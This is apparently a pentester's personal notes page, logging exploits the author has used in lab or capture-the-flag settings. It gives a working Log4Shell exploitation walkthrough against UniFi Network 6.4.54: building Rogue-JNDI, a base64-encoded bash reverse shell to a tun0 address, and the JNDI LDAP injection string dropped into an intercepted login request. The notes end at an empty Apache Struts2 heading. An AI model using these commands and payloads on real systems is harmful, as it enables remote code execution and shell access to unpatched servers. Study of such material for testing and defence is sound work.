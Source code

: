 ```yaml
---
description: 'tl;dr: This page tracks things I have pwn''d before with public exploits'
---
```


# Things I have Pwn'd before

* `https://ippsec.rocks/?#`

### Unifi Log4Shell

* Unifi Network 6.4.54
* [https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi)
* Testing, capture auth attempt in burp with creds `test:test`
* Start `tcpdump` on your host station:

```
sudo tcpdump -i tun0 port 389
```

<figure><img src="../.gitbook/assets/image (5) (1) (2).png" alt=""><figcaption></figcaption></figure>

* The server will response with `invalid payload` however it is still connecting back to us, check `tcpdump` to ensure the connect back

![](<../.gitbook/assets/image (7) (1).png>)

* Now install the required packages:

```
sudo apt update
sudo apt update install openjdk-11-jdk -y
java -version
sudo apt-get install maven
mvn -v
```

* After the payload has been created, start the Rogue-JNDI application while passing in the payload as part of the `--command` option and your tun0 IP address to the `--hostname` option.

```
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
echo 'bash -c bash -i >&/dev/tcp/10.10.15.96/9001 0>&1' | base64
java -jar /opt/rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuOTYvOTAwMSAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.15.96"
```

* `--hostname` is your localhost tun0 interface
* Now start your listener
* Going back to our intercepted POST request, let's change the payload to `${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat}` and click `Send`

### Apache Struts2
